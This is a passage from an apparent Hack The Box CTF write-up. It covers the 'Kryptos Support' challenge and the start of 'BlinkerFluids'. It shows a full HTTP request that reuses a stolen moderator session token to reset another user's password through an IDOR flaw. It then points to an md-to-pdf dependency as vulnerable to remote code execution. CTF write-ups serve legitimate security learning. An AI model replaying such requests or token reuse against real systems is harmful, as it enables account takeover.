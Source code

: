 We visited the new endpoint, using the stolen cookies. Apparently. It's a feature that we could change the password.

![](kryptos-8.png)

After analyzing the request we found out we could change the password for another user. So we just change the `uid` 100 to 1.

```
POST /api/users/update HTTP/1.1
Host: 134.209.178.167:30580
Content-Length: 30
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
DNT: 1
Content-Type: application/json
Accept: */*
Origin: http://134.209.178.167:30580
Referer: http://134.209.178.167:30580/settings
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI4OTUzNzV9.lvNoW_CXaivBSOKLbzEZOVOAsY_9yG0lZ_vfa7nU3lg
Connection: close

{"password":"123","uid":"1"}
```
![](kryptos-9.png)

after that, we just log in at `/login` and successfully obtain the **FLAG**

![](kryptos-10.png)

**HTB{x55_4nd_id0rs_ar3_fun!!}**

### BlinkerFluids (300 points)

The value of this challenge is 300 points and +800 players have solved this challenge.

![](blinker-1.png)

We're given a website with a feature for creating an invoice using markdown and exporting it to PDF.

![](blinker-2.png)

In this challenge, the author gives us a source code, we could make use of this for analyzing the source code.

At **package.json** there's a vulnerable _dependency_ to RCE

```
{
    "name": "blinker-fluids",
    "version": "1.0.0",
    "description": "",
    "main": "index.js",
    "scripts": {
        "start": "node index.js"
    },
    "keywords": [],
    "author": "rayhan0x01",
    "license": "ISC",
    "dependencies": {
        "express": "4.17.3",
        "md-to-pdf": "4.1.0",
        "nunjucks": "3.2.3",
```